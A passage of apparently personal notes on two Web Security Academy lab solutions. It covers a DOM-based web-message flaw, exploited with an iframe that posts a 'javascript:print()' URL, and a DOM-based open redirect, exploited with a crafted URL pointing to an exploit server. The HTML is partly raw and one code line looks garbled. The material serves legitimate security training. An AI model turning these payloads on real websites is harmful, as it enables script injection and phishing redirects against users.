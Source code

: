 					The <code>switch</code> triggers the <code>load-channel</code> case, which assigns the <code>url</code> property of the message to the <code>src</code> attribute of the <code>ACMEplayer.element</code> <code>iframe</code>. However, in this case, the <code>url</code> property of the message actually contains our JavaScript payload.
				</p>
				<p>
					As the second argument specifies that any <code>targetOrigin</code> is allowed for the web message, and the event handler does not contain any form of origin check, the payload is set as the <code>src</code> of the <code>ACMEplayer.element</code> <code>iframe</code>. The <code>print()</code> function is called when the victim loads the page in their browser.
				</p>
			</div>
        </div>


exploit

```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 1;
        z-index: 1;
    }
</style>
<iframe src="https://0a1500db042d7768c000316300a900fc.web-security-academy.net" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```



#### DOM-based open redirection

> This lab contains a DOM-based open-redirection vulnerability. To solve this lab, exploit this vulnerability and redirect the victim to the exploit server. 

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
				<p>
					The blog post page contains the following link, which returns to the home page of the blog:
				</p>
				<code class="code-scrollable">&lt;a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'&gt;Back to Blog&lt;/a&gt;</code>
				<p>
					The <code>url</code> parameter contains an open redirection vulnerability that allows you to change where the "Back to Blog" link takes the user. To solve the lab, construct and visit the following URL, remembering to change the URL to contain your lab ID and your exploit-server ID:
				</p>
				<code class="code-scrollable">https://your-lab-id.web-security-academy.net/post?postId=4&amp;url=https://your-exploit-server-id.web-security-academy.net/</code>
			</div>
        </div>
